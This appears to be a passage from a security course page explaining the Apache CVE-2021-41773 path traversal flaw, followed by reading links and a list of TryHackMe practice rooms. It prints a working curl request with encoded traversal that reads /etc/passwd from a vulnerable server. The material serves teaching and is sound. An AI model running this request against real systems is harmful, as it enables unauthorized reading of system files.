

## CVE-2021-41773

An attacker could use a path traversal attack to map URLs to files outside the expected document root. We discussed about path traversal in [Session 2](https://github.com/security-summer-school/web/blob/master/cookies-session-management-access-control/index.md).
In Apache, if files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.
The affected versions of Apache were Apache 2.4.49 & 2.4.50.

Path normalization mechanism of Apache HTTP Server 2.4.49, it does not properly neutralize sequences such as ".." so this will result in accessing files outside the current directory.
Using the ```%2e``` (which is the URL encoding of '.') inside the target URL, we can successfully run a path traversal attack:

```
curl http://<IP>:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```



# Further reading

1. [Shodan API](https://developer.shodan.io/api/clients)

2. [Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

3. [How WSO2 CVE-2022-29464 works](https://github.com/tufanturhan/wso2-rce-cve-2022-29464)

4. [Apache Spark CVE-2022-33891](https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/)

5. [Apache CVE-2021-41773](https://www.picussecurity.com/resource/blog/simulate-apache-cve-2021-41773-exploits-vulnerability)

# Activities

1. [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

2. [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

3. [Dav](https://tryhackme.com/room/bsidesgtdav)

4. [Jack of All Trades](https://tryhackme.com/room/jackofalltrades)

5. [Smag Grotto](https://tryhackme.com/room/smaggrotto)

6. [Overpass](https://tryhackme.com/room/overpass)

7. [Madness](https://tryhackme.com/room/madness)
